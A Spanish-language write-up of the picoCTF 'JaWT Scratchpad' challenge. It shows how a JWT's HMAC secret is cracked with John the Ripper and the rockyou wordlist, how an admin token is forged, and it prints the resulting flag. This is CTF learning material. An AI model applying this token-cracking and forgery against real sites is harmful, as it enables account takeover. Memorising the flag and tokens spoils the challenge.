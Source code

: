 ## Nombre del reto:
JaWT Scratchpad

## Objetivo:
Check the admin scratchpad! https://jupiter.challenges.picoctf.org/problem/58210/ or http://jupiter.challenges.picoctf.org:58210

## Solución: 
Primeramente intentamos logearnos como admin pero nos aparece un error
YOU CANNOT LOGIN AS THE ADMIN! HE IS SPECIAL AND YOU ARE NOT. 

Tomamos la cookie que se genera cuando nos logeamos con cualquier otro usuario
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoiYSJ9.Wpx3_bxlH3-Q8LDfbdaCP3ML7bAdosK4mAHRXhDmhug

La desincriptamos en jawt poniendo como usuario a admin
{
  "user": "admin"
}
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoiYWRtaW4ifQ.-vh-85mhRjMzTUsaJEWhgJwu-_EzDOy8zI0a9dik2Ww

cambiamos la cookie pero aun con eso nos sale error

Internal Server Error
The server encountered an internal error and was unable to complete your request. Either the server is overloaded or there is an error in the application.


```┌──(kali㉿kali)-[~]
└─$ nano hash
                                                                             
```
```┌──(kali㉿kali)-[~]
└─$ cat hash                  
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoiYSJ9.Wpx3_bxlH3-Q8LDfbdaCP3ML7bAdosK4mAHRXhDmhug
                                                                             
```` 
```┌──(kali㉿kali)-[~]
└─$ nano hash
                                                                             
```
```┌──(kali㉿kali)-[~]
└─$ cat hash 
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoiYWxmcmVkbyJ9.0DyU50Ow1jjs3OtrXPPrRi6V9fbX5y5qZd09DELRXZU
                                                                             
```
```┌──(kali㉿kali)-[~]
└─$ sudo gzip -d /usr/share/wordlists/rockyou.txt.gz 
[sudo] password for kali: 
^[[A^[[A^[[B^[[B^[[B^[[B^[[A^C
                                                                             
```
```┌──(kali㉿kali)-[~]
└─$ sudo gzip -d /usr/share/wordlists/rockyou.txt.gz
                                                                             
```
```┌──(kali㉿kali)-[~]
└─$ head /usr/share/wordlists/rockyou.txt
123456
12345
123456789
password
iloveyou
princess
1234567
rockyou
12345678
abc123
                                                                             
````
```┌──(kali㉿kali)-[~]```
└─$ john hash -w=/usr/share/wordlists/rockyou.txt 
Created directory: /home/kali/.john
Using default input encoding: UTF-8
Loaded 1 password hash (HMAC-SHA256 [password is key, SHA256 128/128 SSE2 4x])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
ilovepico        (?)     
1g 0:00:00:42 DONE (2022-10-11 12:33) 0.02340g/s 173071p/s 173071c/s 173071C/s iloverob4live345..ilovepatri
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 

Editamos la cookie en el cookie editor, actualizamos la pagina y ahora si la bandera nos aparece 
*cookie:**
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoiYWRtaW4ifQ.gtqDl4jVDvNbEe_JYEZTN19Vx6X9NNZtRVbKPBkhO-s

==picoCTF{jawt_was_just_what_you_thought_44c752f5}==

## Referencias:
